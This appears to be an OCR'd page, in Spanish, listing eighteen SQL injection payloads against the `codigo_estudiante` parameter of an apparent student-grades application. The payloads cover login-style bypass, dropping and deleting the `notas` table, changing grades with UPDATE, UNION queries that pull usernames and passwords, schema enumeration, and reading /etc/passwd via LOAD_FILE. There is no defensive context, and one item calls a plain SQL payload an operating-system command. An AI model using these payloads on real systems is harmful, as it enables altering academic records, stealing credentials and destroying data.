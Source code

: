 
1. **Manipulación directa del valor del parámetro `codigo_estudiante`**:
   - Entrada legítima: `2022001`
   - Inyección SQL: `2022001' OR '1'='1`

2. **Eliminar datos de la tabla `notas`**:
   - Inyección SQL: `' OR 1=1; DROP TABLE notas; --`

3. **Recuperar datos de otras tablas**:
   - Inyección SQL: `' UNION SELECT * FROM otra_tabla; --`

4. **Modificar los datos de las notas**:
   - Inyección SQL: `' OR 1=1; UPDATE notas SET corte1 = 5 WHERE 1=1; --`

5. **Recuperar credenciales de usuario o información confidencial**:
   - Inyección SQL: `' UNION SELECT username, password FROM users; --`

6. **Enumerar las tablas de la base de datos**:
   - Inyección SQL: `' UNION SELECT table_name, NULL FROM information_schema.tables; --`

7. **Enumerar las columnas de una tabla específica**:
   - Inyección SQL: `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'notas'; --`

8. **Intentar acceder a archivos del sistema**:
   - Inyección SQL: `' UNION SELECT LOAD_FILE('/etc/passwd'), NULL; --`

9. **Forzar un retardo en la consulta** (ataque de tiempo basado en SQL):
   - Inyección SQL: `' OR SLEEP(10); --`

--------------

10. **Recuperar información confidencial a través de comentarios**:
    - Inyección SQL: `'; --`

11. **Utilizar funciones de base de datos para extraer datos específicos**:
    - Inyección SQL: `' UNION SELECT user(), database(), version(), NULL, NULL; --`

12. **Forzar una condición verdadera para obtener más datos**:
    - Inyección SQL: `' OR '1'='1'; --`

13. **Recuperar nombres de tablas y columnas a través de consultas de información del esquema**:
    - Inyección SQL: `UNION SELECT table_name, column_name FROM information_schema.columns; --`

14. **Intentar acceder a archivos del sistema para obtener información confidencial**:
    - Inyección SQL: `UNION SELECT LOAD_FILE('/etc/passwd'), NULL, NULL, NULL, NULL; --`

15. **Modificar datos de la tabla `notas` para alterar las calificaciones**:
    - Inyección SQL: `'; UPDATE notas SET corte1 = 5 WHERE estudiante_codigo = '2022001'; --`

16. **Eliminar registros de la tabla `notas` para eliminar registros de calificaciones**:
    - Inyección SQL: `'; DELETE FROM notas WHERE estudiante_codigo = '2022001'; --`

17. **Intentar ejecutar comandos específicos del sistema operativo**:
    - Inyección SQL: `'; SELECT * FROM `users`; DROP TABLE `users`; --`

18. **Acceder a información privilegiada almacenada en la base de datos**:
    - Inyección SQL: `' UNION SELECT * FROM `informacion_privilegiada`; --`

-------------
